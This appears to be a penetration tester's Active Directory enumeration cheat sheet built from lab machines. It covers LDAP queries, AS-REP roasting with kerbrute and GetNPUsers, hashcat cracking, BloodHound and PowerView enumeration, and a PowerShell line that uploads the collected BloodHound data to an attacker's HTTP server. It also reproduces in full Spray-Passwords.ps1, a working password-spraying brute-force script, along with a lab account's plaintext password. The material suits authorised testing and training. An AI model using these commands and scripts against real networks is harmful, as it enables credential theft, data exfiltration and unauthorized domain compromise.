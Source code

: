 # Enumeration

<details>

<summary>Finding Name of Domain</summary>

```bash
crackmapexec smb 10.11.1.123 -u '' -p ''
```

```bash
ldapsearch -x -H ldap://10.10.10.175 -s base
```

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
  * Domain: `EGOTISTICAL-BANK.LOCAL`

</details>

<details>

<summary>LDAPSearch</summary>

```bash
ldapsearch -H ldap://192.168.165.122 -x -W -b "dc=hutch,dc=offsec" > ldap_search.txt

# Usernames
cat ldap_search.txt| grep -i "samaccountname"

# Might have hidden passwords
cat ldap_search.txt| grep -i "description"
```

```bash
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

</details>

<details>

<summary>AS-REP Roasting</summary>

### Generate list of potential usernames

```bash
wget https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py
python2.7 usernamer.py -f full_names.txt > potential_usernames.txt
```

### Kerbrute

* `--downgrade` so it is in a format that hashcat can crack
* Can use `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt` if don't know wordlist

```bash
git clone https://github.com/ropnop/kerbrute.git
go build
kerbrute --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL --hash-file hashes.txt --downgrade userenum potential_usernames.txt
```

### Get-NPUsers

```bash
impacket-GetNPUsers -usersfile users.txt -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/
```

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

### Cracking Hashes

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>BloodHound</summary>

```bash
# Generate JSON files
python3 -m bloodhound -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.165.122 --zip

neo4j console
```

Search bloodhound in Apps and open --> load in the jsons (Upload Data).

Upload completed --> Search "SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL" --> Node Info --> First Degree Object Control (under Outbound Object Control) --> To see items that this user has rights over

Go hamburger menu and click analysis --> Start from the bottom of the entire list.

### OR Use SharpHound.exe to collect data for BloodHound

The following will generate `20230425015352_BloodHound.zip`

```bash
SharpHound.exe -c all

# OR
Import-Module ..\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputPrefix "corp_audit"
```

Transfer files to Kali [https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

```powershell
PS C:\temp> (New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'C:\temp\20230425015352_BloodHound.zip')
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.231.175]
└─# python3 SimpleHTTPServerWithUpload.py 80
Serving HTTP on localhost port 80 (http://localhost:80/) ...
(True, "<br><br>'/home/kali/Documents/pg_practice/192.168.231.175/20230425015352_BloodHound.zip'", 'by: ', ('192.168.231.175', 49993))
192.168.231.175 - - [25/Apr/2023 05:13:14] "POST / HTTP/1.1" 200 -

```

</details>

<details>

<summary>PowerView</summary>

Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

```powershell
Import-Module .\PowerView.ps1
```

### Enumerate Computers

```powershell
Get-DomainComputer | select name, dnshostname, operatingsystem
```

### Enumerate Users

```powershell
Get-NetUser | select samaccountname, lastlogon
```

### Enumerate Groups

* Able to show nested groups (unlike `net groups`)

```powershell
Get-NetGroup | select samaccountname
```

### Enumerate OS of Domain hosts

```powershell
Get-NetComputer | select operatingsystem, dnshostname
```

### Resolves Domain Name to IP address

```powershell
Resolve-IPAddress CLIENT76.corp.com
```

### Tests if current account has localadmin access to domain hosts

```powershell
Find-LocalAdminAccess
```

### View if someone logs into the box

* Might not work if running newer versions of Windows

```powershell
Get-NetSession -ComputerName files04 -verbose
```

#### OR, Use PsLoggedon

```powershell
.\PsLoggedon.exe \\client74
```

</details>

<details>

<summary>Object Permissions</summary>

* Access control lists has access control elements&#x20;



* GenericAll: Full permissions on object (change user's password, add to group)&#x20;
* GenericWrite: Edit certain attributes on the object&#x20;
* WriteOwner: Change ownership of the object&#x20;
* WriteDACL: Edit ACE's applied to object&#x20;
* AllExtendedRights: Change password, reset password, etc.&#x20;
* ForceChangePassword: Password change for object&#x20;
* Self (Self-Membership): Add ourselves to for example a group

### Powerview

#### Find GenericAll permissions on Management Department group

<pre class="language-powershell"><code class="lang-powershell">Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts the SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-21-1987370270-658905905-1781884369-1104", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
# CORP\Domain Admins
# CORP\stephanie
<strong># BUILTIN\Account Operators
</strong># Local System
# CORP\Enterprise Admins
</code></pre>

#### Find GenericAll permissions on Jen user

```powershell
Get-ObjectAcl -Identity "jen" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

</details>

<details>

<summary>User's Domain Privileges</summary>

```bash
net user <username> /domain
```

</details>

<details>

<summary>Groups Enumeration</summary>

```
net group /domain
```

* However, `net.exe` does not show nested groups.

Listing all the groups in a domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"
#$Searcher.filter="(name=Secret_Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.name
}
<#
Foreach($obj in $Result)
{
    $obj.Properties.member
}
#>
```

</details>

<details>

<summary>Currently Logged On Users</summary>

* Find logged on users in the high-value groups since their creds will be cached in memory

```powershell
Import-Module .\PowerView.ps1
```

* The following command invokes `NetWkstaUserEnum`, which requires administrative permissions and returns the list of all users logged on to a target workstation.

```powershell
Get-NetLoggedon -ComputerName client251
```

* The following command invoke `NetSessionEnum`, which can be used from a regular domain user and returns a list of active user sessions on servers.

```powershell
Get-NetSession -ComputerName dc01
```

</details>

<details>

<summary>Service Principal Names (SPN) Enumeration</summary>

* SPN is used to associate a service on a specific server to a service account in Active Directory.

- Service accounts may also be members of high value groups

* Some apps may use a set of predefined service accounts like LocalSystem, LocalService, and NetworkService. For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.

The following script searches for the string `http`, which indicates the presence of a registered web server.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

```sh
nslookup CorpWebServer.corp.com
```

</details>

<details>

<summary>Account Policy</summary>

```
net users
```

* The Lockout observation window means that after X minutes of the last login attempt, user will be given 3 more login attempts.

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

* The following is `Spray-Passwords.ps1`

```powershell
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."
	
  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.
	
  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.
	
  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose 
    
    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose 
    
    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param 
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
    [AllowEmptyString()]
    [String]
    $Pass = '',

    [Parameter(Mandatory = $false,HelpMessage="Warning: will also target privileged user accounts (admincount=1.)")]
    [Switch]
    $Admins = $false

)

# Method to determine if input is numeric or not
Function isNumeric ($x) {
    $x2 = 0
    $isNum = [System.Int32]::TryParse($x, [ref]$x2)
    Return $isNum
}

# Method to get the lockout threshold - does not take FGPP into acocunt
Function Get-threshold
{
    $data = net accounts
    $threshold = $data[5].Split(":")[1].Trim()

    If (isNumeric($threshold) )
        {
            Write-Verbose "threshold is a number = $threshold"
            $threshold = [Int]$threshold
        }
    Else
        {
            Write-Verbose "Threshold is probably 'Never', setting max to 1000..."
            $threshold = [Int]1000
        }
    
    Return $threshold
}

# Method to get the lockout observation window - does not tage FGPP into account
Function Get-Duration
{
    $data = net accounts
    $duration = [Int]$data[7].Split(":")[1].Trim()
    Write-Verbose "Lockout duration is = $duration"
    Return $duration
}

# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}
   
    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```

</details>

<details>

<summary>Anonymous Credential LDAP Dumping</summary>

```bash
ldapsearch -LLL -x -H ldap:// -b ‘’ -s base ‘(objectclass=*)’
```

</details>

<details>

<summary>Impacket Look Up SID</summary>

```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

</details>

<details>

<summary>Windapsearch</summary>

```bash
python3 windapsearch.py -d host.domain -u domain\ldapbind -p PASSWORD -U
```

</details>
